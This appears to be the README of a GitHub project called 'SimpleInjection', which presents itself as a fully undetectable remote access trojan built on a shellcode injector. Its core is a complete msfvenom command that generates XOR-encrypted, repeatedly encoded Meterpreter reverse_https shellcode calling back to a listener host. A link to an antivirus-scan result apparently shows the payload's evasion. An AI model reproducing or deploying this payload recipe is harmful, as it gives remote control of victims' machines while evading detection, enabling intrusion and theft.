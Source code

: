 # SimpleInjection
FUD RAT (Xor encrypted Meterpreter, shellcode injector)

to generate shellcode:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -e x64/zutto_dekiru -i 20 --encrypt xor --encrypt-key byte4RR4Y -f csharp
https://antiscan.me/images/result/7R5CcVwJfzn3.png
